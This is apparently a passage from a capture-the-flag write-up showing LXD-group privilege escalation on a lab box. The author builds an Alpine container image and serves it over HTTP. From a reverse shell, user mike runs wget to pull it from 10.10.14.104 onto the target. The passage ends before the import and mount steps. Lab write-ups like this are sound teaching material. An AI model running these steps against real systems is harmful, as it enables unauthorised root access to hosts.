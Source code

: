 ```shell

```

We can see that mike belongs to lxd group, LXD is a management API for dealing with LXC containers on linux systems. It will perfom tasks for any members of the local lxd group. Searching LXD Exploit on Google reveals the following [information](https://www.hackingarticles.in/lxd-privilege-escalation/):

A member of the local "lxd" group can instantly escalate the privileges to root on the host operating system. [This](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) HackTricks page describes the whole explotation process step by step.

First lets install the following packages:
```shell
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
```

Then clone LXC Distribution Builder and build it:
```shell
└──╼ $sudo snap install distrobuilder --classic
2022-09-03T22:24:46+02:00 INFO Waiting for automatic snapd restart...
distrobuilder 2.1 from Stéphane Graber (stgraber) installed

sudo /snap/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
Once the build is done lxd.tar.xz and rootlet.squashfs will be available in the same folder:
```shell
└──╼ $ls -lrt
total 2024
-rw-r--r-- 1 darthv darthv   15788 sep  3 22:26 alpine.yaml
-rw-r--r-- 1 root   root   2052096 sep  3 22:27 rootfs.squashfs
-rw-r--r-- 1 root   root       880 sep  3 22:27 lxd.tar.xz
┌─[parrot]─[~/ContainerImages/alpine]
└──╼ $
```

Transfer to server with the python http module:
```shell
└──╼ $python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Lets get on server from reverse shell session:
```shell
mike@included:~$ wget http://10.10.14.104:8000/lxd.tar.xz
wget http://10.10.14.104:8000/lxd.tar.xz
--2022-09-03 20:38:15--  http://10.10.14.104:8000/lxd.tar.xz
Connecting to 10.10.14.104:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 880 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz          100%[===================>]     880  --.-KB/s    in 0s      

2022-09-03 20:38:15 (46.4 MB/s) - ‘lxd.tar.xz’ saved [880/880]

mike@included:~$ wget http://10.10.14.104:8000/rootfs.squashfs
wget http://10.10.14.104:8000/rootfs.squashfs
--2022-09-03 20:38:29--  http://10.10.14.104:8000/rootfs.squashfs
Connecting to 10.10.14.104:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2052096 (2.0M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs     100%[===================>]   1.96M  3.44MB/s    in 0.6s    

2022-09-03 20:38:30 (3.44 MB/s) - ‘rootfs.squashfs’ saved [2052096/2052096]
```